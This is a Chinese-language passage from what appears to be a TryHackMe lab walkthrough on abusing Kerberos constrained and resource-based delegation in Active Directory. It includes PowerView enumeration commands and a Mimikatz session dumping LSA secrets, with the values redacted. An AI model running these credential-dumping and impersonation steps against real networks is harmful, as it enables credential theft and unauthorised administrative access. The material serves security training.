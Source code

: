 ### 基于资源的委派

其实有三种类型的 Kerberos 委派。但 Resource-Based Constrained Delegation（RBCD）非常值得单独提及。由 Microsoft 在 2012 年引入，RBCD 再次为 Kerberos 委派增加了额外的安全限制。RBCD 完全改变了委派模型。不再是指定哪个对象可以委派给哪个服务，而是服务现在指定了哪些对象可以委派给它。这使得服务所有者能够控制谁可以访问它。在我们的 Web 应用程序示例中，这意味着我们不再需要指定 Web 服务帐户可以委派给数据库服务以访问数据库，而是可以在数据库服务上指定允许 Web 服务帐户委派访问它。

假设我们有权限为一个服务配置 RBCD。这意味着我们有能力为 AD 对象设置 msDS-AllowedToActOnBehalfOfOtherIdentity 属性。我们可以用我们访问权限的 AD 账户的详细信息填充这个属性。现在，为了访问这个服务，我们可以为我们控制的账户生成一个 TGT，这将允许我们与这个服务交互。如果你想了解 RBCD 利用的详细示例，可以看 [Resource-Based Constrained Delegation Abuse](https://blog.netwrix.com/2022/09/29/resource-based-constrained-delegation-abuse/) 。

### 针对受限委托的利用

我们将利用 Constrained Delegation 来完成这个任务。首先，我们需要枚举可用的委派。我们可以使用我们的新特权用户在网络上运行一些命令。我们可以使用 PowerSploit 的 Get-NetUser 命令来进行这个枚举，运行以下命令：

```shell title="PowerShell"
PS C:\>Import-Module C:\Tools\PowerView.ps1
PS C:\>Get-NetUser -TrustedToAuth
```

根据这个命令的输出，我们可以看到 svcIIS 账户可以委派 THMSERVER1 上的 HTTP 和 WSMAN 服务。你可能会认为这意味着我们只能代表模拟用户访问网站。然而，PowerShell 远程管理也使用 HTTP 和 WSMAN 服务。理想的选择是冒充一个第一层管理员，因为这将为我们提供对 THMSERVER1 的管理访问权限。

如果你对 THMWRK1 进行适当的后渗透枚举，你会发现主机上有一个作为 svcIIS 用户运行的服务。由于我们现在有管理访问权限，我们可以利用这一点来 dump LSASecrets，Windows 注册表中存储凭据的一部分，用于诸如 Windows 服务等功能。让我们使用 Mimikatz 来 dump 这些秘密：

```shell title="Command Prompt"
C:\> C:\Tools\mimikatz_trunk\x64\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` (benjamin@gentilkiwi.com)
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             (vincent.letoux@gmail.com)
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # token::elevate
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM


mimikatz # lsadump::secrets
Domain : THMWRK1
SysKey : redacted

Local name : THMWRK1 (S-1-5-21-3226461851-763325627-4205969673)
Domain name : ZA (S-1-5-21-3885271727-2693558621-2658995185)
Domain FQDN : za.tryhackme.loc

Policy subsystem is : 1.18
LSA Key(s) : 1, default {cfcff4be-beab-7d93-cfa3-edb6a9a3bf27}
  [00] {cfcff4be-beab-7d93-cfa3-edb6a9a3bf27} 929bd1cdc726d31f5eea6fa5266a09521afd0be6309a08fd604c9a95c2af4463

Secret  : $MACHINE.ACC
cur/text: redacted
    NTLM:redacted
    SHA1:redacted
old/text: redacted
    NTLM:redacted
    SHA1:redacted

Secret  : DefaultPassword
cur/text: redacted
```

[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents> whoami